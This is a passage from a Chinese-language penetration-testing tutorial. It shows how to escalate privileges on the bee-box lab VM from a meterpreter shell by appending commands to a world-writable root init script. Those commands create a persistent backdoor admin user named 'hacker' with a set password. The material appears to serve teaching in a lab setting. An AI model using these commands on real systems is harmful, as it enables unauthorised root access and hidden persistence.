 建议在开始本教程之前先完成前两个教程，*利用 Shellshock 执行命令* 和 *使用 Metasploit 创建并捕获反向 Shell*，尽管从任何受限的 Shell 在远程服务器上也能实现相同的结果。

# 如何操作...

我们在一台受损服务器上运行了一个 meterpreter Shell——更具体地说，是在 IP 为 `192.168.56.12` 的 bee-box 上。我们从找到提升权限的方法开始：

1.  Kali Linux 包含一个名为`unix-privesc-check`的工具；它检查系统中可能允许我们提升权限的配置漏洞。从 meterpreter shell 中，我们可以使用`upload`命令将其上传到服务器。在 meterpreter 会话中，输入`upload /usr/bin/unix-privesc-check /tmp/`命令。

1.  一旦文件上传完成，打开系统 shell（在 meterpreter 中使用`shell`命令），并运行脚本`/tmp/unix-privesc-check standard`。以下截图展示了这一过程：

![](img/2c4da87f-b3a8-4e7b-b00c-b8eb2f5ae8c7.png)

1.  脚本会显示一长串结果，但我们关注的是在开头显示`WARNING`的那一项。以下截图中，我们可以看到有一个脚本(`/etc/init.d/bwapp_movie_search`)，它在启动时由 root 用户运行，并且任何人都可以写入它（`World write is set`）：

![](img/5b4b8a21-716e-4044-8409-7a52235a93e7.png)

1.  我们将利用这个文件让 root 用户在启动时执行命令。我们会让它创建一个具有管理员权限的用户，这样我们就可以随时通过 SSH 连接到服务器。为了实现这一点，我们需要检查系统中已有的用户组，以便了解哪些具有特权访问权限。在系统 shell 中，运行`cat /etc/group|sort -u`命令。你会看到一些有趣的组名，比如`adm`、`admin`和`root`。

1.  由于我们没有完整的 shell，我们无法打开文本编辑器来将命令添加到目标文件中，因此我们需要通过`echo`命令逐行将它们附加到文件中：

```
echo "/usr/sbin/useradd hacker -m -s /bin/bash -g admin -G root,adm" >> /etc/init.d/bwapp_movie_search

echo "echo hacker:MyPassword | chpasswd" 
>> /etc/init.d/bwapp_movie_search
```

1.  为了验证命令是否正确引入，使用`tail`。它将显示文件的最后几行：`tail /etc/init.d/bwapp_movie_search`。在截图中，我们可以看到它应该是什么样子：
